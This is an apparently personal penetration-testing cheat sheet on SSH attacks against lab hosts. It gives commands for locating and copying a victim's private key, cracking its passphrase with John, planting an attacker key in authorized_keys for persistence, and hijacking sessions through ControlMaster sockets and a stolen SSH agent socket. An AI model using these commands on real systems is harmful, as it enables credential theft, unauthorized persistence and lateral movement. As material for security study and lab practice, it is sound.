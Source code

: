 # (22) SSH

<details>

<summary>Finding SSH Private Keys</summary>

```bash
/home/user/.ssh/id_rsa
```

```bash
find /home/ -name "id_rsa"
```

</details>

<details>

<summary>SSH with Private Key</summary>

```bash
ssh -i svuser.key svuser@controller
```

</details>

<details>

<summary>How to tell if a key is encrypted with passphrase?</summary>

![](<../.gitbook/assets/image (300).png>)

</details>

<details>

<summary>Cracking passphrase of SSH key</summary>

<pre class="language-bash"><code class="lang-bash"><strong>#Copy file over to Kali
</strong><strong>scp root@linuxvictim:/home/linuxvictim/svuser.key .
</strong><strong>
</strong><strong>#Convert the hash to format used by John &#x26;&#x26; Crack it
</strong>/usr/share/john/ssh2john.py svuser.key > svuser.hash
john --wordlist=/usr/share/wordlists/rockyou.txt svuser.hash
</code></pre>

</details>

<details>

<summary>Find Machines that's connected from the victim</summary>

* ```bash
  cat ~/.ssh/known_hosts
  ```
  * If HashKnownHosts is enabled --> entries in known\_hosts are hashed
* ```bash
  cat ~/.bash_history
  ```

</details>

<details>

<summary>SSH Persistency</summary>

* Generate SSH keypair
  *   ```bash
      ssh-keygen
      ```


* Put Kali's public key (\~/.ssh/id\_rsa.pub) to victim authorized\_keys file
  *   ```bash
      echo "ssh-rsa AAAAB3NzaC1yc2E....ANSzp9EPhk4cIeX8=" >> /home/linuxvictim/.ssh/authorized_keys
      ```


* Now, can just:
  * ```bash
    ssh linuxvictim@linuxvictim
    ```

</details>

<details>

<summary>SSH from localhost to localhost</summary>

* Useful if SSH port is not opened to external IP

```bash
www-data@nineveh:/dev/shm$ chmod 600 nineveh.priv 
www-data@nineveh:/dev/shm$ ssh -i nineveh.priv amrois@127.0.0.1
Could not create directory '/var/www/.ssh'.
The authenticity of host '127.0.0.1 (127.0.0.1)' can't be established.
ECDSA key fingerprint is SHA256:aWXPsULnr55BcRUl/zX0n4gfJy5fg29KkuvnADFyMvk.
Are you sure you want to continue connecting (yes/no)? yes
Failed to add the host to the list of known hosts (/var/www/.ssh/known_hosts).
Ubuntu 16.04.2 LTS
Welcome to Ubuntu 16.04.2 LTS (GNU/Linux 4.4.0-62-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

288 packages can be updated.
207 updates are security updates.


You have mail.
Last login: Wed May 10 08:01:22 2023 from 10.10.14.2
amrois@nineveh:~$ whoami
amrois
```

</details>

<details>

<summary>SSH Hijacking (ControlMaster)</summary>

* Using an existing SSH connection to gain access to another machine
* Allows for the sharing of multiple SSH session over a single network connection

**ControlMaster feature**

* In \~/.ssh/config
  *   ```tsconfig
      Host *
              ControlPath ~/.ssh/controlmaster/%r@%h:%p      --> specifies where the ControlMaster socket file is stored
              ControlMaster auto
              ControlPersist 10m
      ```


* Then,&#x20;
  *   ```bash
      chmod 644 ~/.ssh/config
      mkdir ~/.ssh/controlmaster
      ```


* SSH to the controller box and from controller box ssh to linuxvictim
  *   ```bash
      ssh offsec@controller
      ssh offsec@linuxvictim
      ```


* Now, in \~/.ssh/controlmaster
  * Have `offsec@linuxvictim:22`entry
* Finally, attacker able to ssh into the linuxvictim machine from controller without having to enter any password --> "piggybacking" the active legit session to linuxvictim
  * ```bash
    ssh offsec@linuxvictim
    OR
    ssh -S /home/offsec/.ssh/controlmaster/offsec\@linuxvictim\:22 offsec@linuxvictim
    ```

</details>

<details>

<summary>SSH Hijacking (SSH-Agent)</summary>

* Keeps track of user's private keys and allows them to be used without having to repeat their passphrases

- Setting up
  * Installing public key to both intermediate and destination server
    *   ```bash
        ssh-copy-id -i ~/.ssh/id_rsa.pub offsec@controller
        ssh-copy-id -i ~/.ssh/id_rsa.pub offsec@linuxvictim
        ```


  * In kali: \~/.ssh/config
    *   ```bash
        ForwardAgent yes
        ```


  * In intermediate server /etc/ssh/sshd\_config
    *   ```bash
        AllowAgentForwarding yes
        ```


  * Start SSH agent on Kali
    *   ```bash
        eval `ssh-agent`
        ```


  * Add our keys to the SSH-agent on kali
    *   ```bash
        ssh-add
        ```


  * Now, able to ssh to intermediate server and from intermediate server ssh to destination server
    *   <pre class="language-bash"><code class="lang-bash"><strong>ssh offsec@controller
        </strong>ssh offsec@linuxvictim
        </code></pre>



Exploiting

*   If there exists a connection from the controller to the linuxvictim that's not the attacker's -->&#x20;

    When the attacker access the controller with the same user as the currently logged in user session, they're able to ssh to the linuxvictim without any creds

- ELSE if the attacker account is different from the current session user
  *   Ensure that user's open SSH-Agent socket is present:

      ```bash
      ps aux | grep ssh
      ```


  * Find PID of SSH process (Eg: bash(2161))
    *   ```bash
        pstree -p offsec | grep ssh
        ```


  * Search for the env variable called SSH\_AUTH\_SOCK
    *   ```bash
        cat /proc/2161/environ
        ```


  * Add SSH auth socket
    *   ```bash
        SSH_AUTH_SOCK=/tmp/ssh-qAgOqMO4H1/agent.2160 ssh-add -l
        ```


  * Use new SSH auth socket to login to linuxvictim
    * ```bash
      SSH_AUTH_SOCK=/tmp/ssh-qAgOqMO4H1/agent.2160 ssh offsec@linuxvictim
      ```

</details>
